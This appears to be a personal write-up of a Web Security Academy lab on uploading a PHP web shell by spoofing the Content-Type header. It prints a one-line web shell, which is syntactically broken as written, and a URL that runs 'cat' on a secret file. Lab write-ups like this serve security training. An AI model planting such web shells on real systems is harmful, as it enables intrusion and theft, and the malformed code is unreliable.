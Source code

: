 ## Lab: Web shell upload via Content-Type restriction bypass ##

This lab contains a vulnerable image upload function. It attempts to prevent users from uploading unexpected file types, but relies on checking user-controllable input to verify this.

To solve the lab, upload a basic PHP web shell and use it to exfiltrate the contents of the file `/home/carlos/secret`. Submit this secret using the button provided in the lab banner.

You can log in to your own account using the following credentials: `wiener:peter`


First you need to create a PHP file with a malicious code that permits you get information from the system like this one

```
<?php system($_GET(['cmd']); ?>)
```

Save it as exploit.php for example and then try to upload the file.

![[Screenshot_2023-09-21_09_25_22.png]]

Now when you upload the file you must change the content type from application/x-php to image/png and you will bypass with success the exploit.


Now you need to know where is the file, if you look the source code you will see that the "avatar" file that youre uploading is on 

```
/files/avatars/exploit.php
```

On the browser you must search the location and execute the exploit to execute it

https://0a7400de03dc47948094e9d2006c004d.web-security-academy.net/my-account/files/avatars/exploit.php?cmd=cat /home/carlos/secret

Then you will see the secret file and you can submit it .
